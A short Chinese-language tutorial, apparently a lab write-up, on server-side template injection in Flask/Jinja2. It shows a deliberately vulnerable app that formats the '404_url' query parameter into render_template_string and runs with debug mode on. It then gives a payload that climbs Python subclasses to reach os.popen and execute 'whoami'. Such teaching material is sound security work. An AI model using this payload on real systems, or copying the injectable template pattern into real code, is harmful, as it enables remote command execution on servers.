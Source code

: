 <br>

## python案例说明
```
from flask import Flask    # Jinja2是Flask框架的一部分，Jinja2会把模板参数提供的相应的值替换成 {{…}} 块
from flask import request
from flask import config
from flask import render_template_string
app = Flask(__name__)

app.config['SECRET_KEY'] = "flag{SSTI_123456}"
@app.route('/')
def hello_world():
    return 'Hello World!'

@app.errorhandler(404)
def page_not_found(e):
    template = '''
{%% block body %%}
    <div class="center-content error">    # 这里是报错页面所显示的内容
        <h1>Oops! That page doesn't exist.</h1>
        <h3>%s</h3>    # %s接收404_url下的参数，返回到报错页面中
    </div> 
{%% endblock %%}
''' % (request.args.get('404_url'))
    return render_template_string(template), 404

if __name__ == '__main__':
    app.run(host='0.0.0.0',debug=True)
```

随便输入字符使得页面报错，并利用404_url来接收参数，发现存在注入
![](ssti/1.png)
<br>

使用**payload**进行注入
```
使用__import__的os。
"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()
```
